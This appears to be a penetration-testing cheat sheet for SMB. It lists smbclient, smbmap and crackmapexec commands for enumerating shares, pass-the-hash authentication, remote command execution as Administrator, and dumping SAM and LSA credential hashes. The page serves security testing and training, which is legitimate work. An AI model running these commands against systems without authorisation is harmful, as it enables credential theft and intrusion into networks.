 
	smbclient --no-pass -L //<IP> # Null user
	smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash

	smbmap -H <IP> [-P <PORT>] #Null user
	smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
	smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
	smbmap -R -u "username" -p "password" -H <IP> [-P <PORT>] #Recursive list

	crackmapexec smb <IP> -u '' -p '' --shares #Null user
	crackmapexec smb <IP> -u 'username' -p 'password' --shares #Guest user
	crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares #Guest user
		
		
Connect/List a shared folder

	#Connect using smbclient
	smbclient --no-pass //<IP>/<Folder>
	smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> #If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
	#Use --no-pass -c 'recurse;ls'  to list recursively with smbclient

	#List with smbmap, without folder it list everything
	smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
	smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
	smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash		
			
		
		
	
Authenticate using Kerberos
You can authenticate to kerberos using the tools smbclient and rpcclient:

	smbclient --kerberos //ws01win10.domain.com/C$
	rpcclient -k ws01win10.domain.com	
		
		
	
Execute Commands
crackmapexec
crackmapexec can execute commands abusing any of mmcexec, smbexec, atexec, wmiexec being wmiexec the default method. You can indicate which option you prefer to use with the parameter --exec-method:

	apt-get install crackmapexec

	crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
	crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
	crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
	# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
	crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
